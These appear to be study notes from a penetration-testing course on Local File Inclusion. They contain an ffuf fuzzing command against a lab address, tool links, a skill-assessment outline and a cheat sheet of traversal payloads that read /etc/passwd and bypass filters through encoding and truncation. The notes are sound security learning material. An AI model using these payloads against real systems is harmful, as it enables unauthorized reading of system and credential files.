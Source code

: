 -  [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)

```shell
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://94.237.54.176:30951/index.php?view=../../../../FUZZ' -fs 2287
```


### LFI Tools


- [LFISuite](https://github.com/D35m0nd142/LFISuite), [LFiFreak](https://github.com/OsandaMalith/LFiFreak), and [liffy](https://github.com/mzfr/liffy).






# Skill Assessment

- page parameter vulnerable to lfi
- use phar wrapper to get source code of index.php
- find admin directory
- path traversel to /etc/passwd
- view ngnix access log






























# CHEETSHEET
## Local File Inclusion

|**Command**|**Description**|
|---|---|
|**Basic LFI**||
|`/index.php?language=/etc/passwd`|Basic LFI|
|`/index.php?language=../../../../etc/passwd`|LFI with path traversal|
|`/index.php?language=/../../../etc/passwd`|LFI with name prefix|
|`/index.php?language=./languages/../../../../etc/passwd`|LFI with approved path|
|**LFI Bypasses**||
|`/index.php?language=....//....//....//....//etc/passwd`|Bypass basic path traversal filter|
|`/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`|Bypass filters with URL encoding|
|`/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]`|Bypass appended extension with path truncation (obsolete)|